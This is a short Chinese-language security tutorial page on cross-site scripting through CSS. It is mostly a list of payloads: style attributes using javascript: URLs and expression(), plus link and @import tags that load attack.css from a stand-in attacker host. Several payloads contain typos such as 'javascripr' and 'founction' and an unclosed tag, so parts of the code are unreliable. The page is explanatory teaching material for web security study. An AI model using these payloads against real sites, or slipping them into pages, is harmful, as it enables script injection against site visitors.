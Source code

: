 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS利用CSS跨站剖析

>小贱提示：
>
>这种方法是视浏览器种类而酌情利用的
>
>不同的浏览器效果不同

```html
<div style="background-image:url(javascripr:alert('XSS'))">
<style>
    body {background-image:url("javascripr:alert('XSS')");}
</style>
<div style="width:expression(alert('XSS'));">
<img src="#" style="xss:expression(alert(/XSS/));">
<style>
    body {background-image:expression(alert("XSS"));}
</style>
<div style="list-style-image:url(javascript:alert('XSS‘))">
<img style="background-image:url(javascripr:alert('XSS'))">
```

## ![](../img/github4.png)使用link或@import跨网站xss

attack.css为：
```
p {
    background-image:expression(alert("XSS"));
}
```
目标网站Exploit为：
```
<link rel="stylesheet" href="http://www.attack.com/attack.css">
```
attack.css为：
```
.showCSS{
event:expression(onload=founction( ){alert('XSS');})}
```
目标网站Exploit为：
```
<style type='text/css'>
@import url(http://www.attack.com/attack.css);</style>
```
@import还有另一个特性，可以直接执行js：
```
<style>@import 'javascript:alert("XSS")';<style>
```

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
